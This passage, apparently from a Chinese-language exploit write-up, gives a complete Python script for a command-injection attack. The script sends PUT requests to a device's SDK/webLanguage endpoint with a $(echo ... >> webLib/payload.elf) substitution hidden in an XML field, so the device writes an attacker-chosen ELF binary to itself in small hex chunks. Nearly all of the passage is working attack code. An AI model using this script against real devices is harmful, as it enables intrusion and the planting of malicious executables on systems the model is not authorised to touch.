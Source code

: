所以这里涉及两个步骤  
1. 将二进制可执行文件转化为 \x00 这种格式  
  
1. 循环将文件一点一点写进去  
  
这里直接用一个 Python 脚本来完成  
```
import requests
import sys
import urllib.parse

def read_string(string, chunk_size=2000):
    start = 0
    while start < len(string):
        end = start + chunk_size
        chunk = string[start:end]
        yield chunk
        start = end

# 构建请求头部
headers = {
    'User-Agent': 'python-requests/2.22.0',
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Connection': 'close',
    'X-Requested-With': 'XMLHttpRequest',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'en-US,en;q=0.9,sv;q=0.8',
}

def sendPayload(target, poc_data):
    # 设置要发送的数据
    data = '<?xml version="1.0" encoding="UTF-8"?><language>$(echo -n -e "' + poc_data + '" >> webLib/payload.elf)</language>'
    url = urllib.parse.urljoin(target, 'SDK/webLanguage')

    # 发送请求
    response = requests.put(url, headers=headers, data=data)
    
    # 检查响应状态码等，确保请求成功
    if response.status_code == 500:
        return True
    return False

if len(sys.argv) < 3:
    print("Usage: python script.py <target_address> <file_path>")
    sys.exit(1)

target = sys.argv[1]
file_path = sys.argv[2]

with open(file_path, 'rb') as file:
    elf_data = file.read()

hex_string = ''.join(['\\x{:02x}'.format(byte) for byte in elf_data])

hex_string_len = len(hex_string)
print(hex_string_len)

# 动态设置 Host 字段
headers['Host'] = urllib.parse.urlparse(target).netloc

i = 0
for chunk in read_string(hex_string, chunk_size=120):
    result = sendPayload(target, chunk)
```